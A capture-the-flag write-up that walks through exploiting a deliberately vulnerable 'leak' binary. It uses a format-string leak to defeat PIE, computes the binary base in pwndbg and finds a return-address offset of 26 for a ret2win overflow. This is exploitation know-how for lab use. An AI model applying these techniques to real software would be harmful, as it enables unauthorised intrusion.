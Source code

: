 We see a `gets` function call in `main`, which indicates a buffer overflow. However, from running `checksec` we know that `PIE` is enabled, which prevents us from knowing the address of the binary, so we don't know the address of the function `dont_look` either then(which the goal for us is to call).

We need a leak of a binary address before we can perform `ret2win`, which consists of overflowing the buffer to overwrite the return address stored on the stack with the function we want to call.

Luckily, this line of code provides us with the leak we need
```c
printf("1: 0x%x \n2: 0x%x \n3: 0x%x \n4: 0x%x \n5: %20$p\n\n", v8, v7, v6, v5);
```
{: .nolineno }

In option 5 we see that `%20$p` is printed, instead of the value of a variable. `%20$p` is a [format specifier](https://www.simplilearn.com/tutorials/c-tutorial/format-specifiers-in-c) in C, and this one specifically will print the hexadecimal values of the address stored on the stack at index 20. We can inspect where this address is located (e.g. in the binary, libc, heap, etc.)
```console
<...>
The numbers are:
1: 0xcafebabe
2: 0xdeadbeef
3: 0xc0ffee
4: 0x1
5: 0x555555557d78
```

The GDB output shows us that this address is a binary leak
```console
pwndbg> vmmap 0x555555557d78
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555557000     0x555555558000 r--p     1000   2000 /home/loevland/ctf/wackattack/pwn/leak/leak +0xd78
```

We can use this leak to find the base address of the binary
```console
pwndbg> piebase
Calculated VA from /home/loevland/ctf/wackattack/pwn/leak/leak = 0x555555554000
pwndbg> p/x 0x555555557d78-0x555555554000
$2 = 0x3d78
```

We now know that `<leak>-0x3d78 = binary base address`, and can then perform our `ret2win`.

Using GDB and a cyclic pattern we find the offset to the return address on the stack to be `26`

![GDB Offset](leak_gdb_offset.png)

```console
pwndbg> cyclic -l 0x6165616161616161
Finding cyclic pattern of 8 bytes: b'aaaaaaea' (hex: 0x6161616161616561)
Found at offset 26
```
